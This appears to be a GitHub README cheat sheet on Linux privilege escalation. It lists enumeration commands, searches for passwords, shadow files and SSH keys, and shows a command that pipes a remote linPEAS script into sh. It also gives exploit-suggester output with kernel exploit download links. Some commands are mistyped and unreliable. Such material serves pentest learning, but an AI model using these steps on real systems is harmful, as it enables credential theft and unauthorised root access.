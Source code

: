 # LinuxPrivEsc
Linux Privilege Escalation techniques &amp; resources

- [Enumeration](#enumeration)
  - [system enum](#system-enum)
  - [user enum](#user-enum)
  - [network enum](#network-enum)
- [password hunting](#password-hunting)
- [Automated tools](#automated-tools)
  - [linpeas](#linpeas)
  - [linenum](#linenum)
  - [linux exploit suggestor](#linux-exploit-suggestor)
  - [Linuxprivchecker](#linuxprivchecker)



# 
## Enumeration

We assume that first exploited & have access to the m/c,
But the user is non admin. now we have to go through the stages of 5
stage methodlogy to escalate the priviledge .

### System enum

`uname -a` // look for version & search for exploit

`cat /etc/issuse` // look for distribution

`cat /proc/version`

`lscpu`

`ps aux`

**what kernel are we on ? is it vuln to anything arch?**

### User enum

we're going to find out who we are, what permissions we have & what we're capable of doing.

`whoami`

`id`

`sudo -l` // list out what commands we can run as sudo

`cat passwd / shadow / groups` // what file we can access

`history`

**look for sudo escalations**

`sudo su -`

### Network enum

Net enum is important in a sense that it lets us see what the ip architecture is, what ports are open,what we're interacting with.

`ip a` 

sometimes a network can have two adapters in it, or might have nic's in, dual netwok.

`ip route` // to check the route

**check for arp table**

`ip neigh`

**what ports are open & what communication exists?**

`netstat -ano`

check which mc's are talking to the target & if needed to exploit or listen to trafic etc. 

#

## Password hunting

### Colour code search items

`grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`

color the word password wherever it finds.

`locate password` // search for file named password (be creative like pass, pwd etc)

`find /name id_rsa 2> /dev/null`

get decent in searching through files

best enums are like going through 100s & 1000s of line just to find the password.

look for interesting files that might contain password.

#
## Automated Tools

## Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

### Basic Usage

```sh
curl wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

## LinEnum

https://github.com/rebootuser/LinEnum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

### Basic Usage

```sh
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

## Linux Exploit suggestor

https://github.com/mzet-/linux-exploit-suggester

### Usage & example output

```sh
./les.sh
```
```sh
Possible Exploits:

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```
## Linuxprivchecker

https://github.com/sleventyeleven/linuxprivchecker

### Usage

```sh
python linuxprivchecker.py
```
